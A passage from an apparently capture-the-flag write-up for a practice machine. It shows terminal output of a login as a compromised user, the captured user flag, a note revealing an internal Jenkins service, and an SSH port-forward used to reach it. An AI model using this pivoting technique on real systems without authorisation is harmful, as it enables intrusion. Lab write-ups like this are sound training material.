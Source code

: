 ```bash
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 11:09:10 UTC 2023

  System load:  0.08              Processes:              115
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 38%               IP address for eth0:    10.10.192.249
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
0 packages can be updated.
0 updates are security updates.


Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56

aubreanna@internal:~$
```

We found a user Flag :

```bash
aubreanna@internal:~$ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$cat user.txt 
THM{int3rna1_fl4g_1}
```

* When enumerating the home directory, found information about Jenkins, which appears to be running on port 8080 :

```bash
aubreanna@internal:~$ls
There  jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

Since port 8080 can only by accessed locally, setting up port forwarding in order to redirect traffic to localhost on port 8080 to the target machine on port 8080 :

```bash
$ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.192.249                                             
aubreanna@10.10.192.249's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 11:15:01 UTC 2023

  System load:  0.0               Processes:              118
  Usage of /:   63.9% of 8.79GB   Users logged in:        1
  Memory usage: 38%               IP address for eth0:    10.10.192.249
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.
```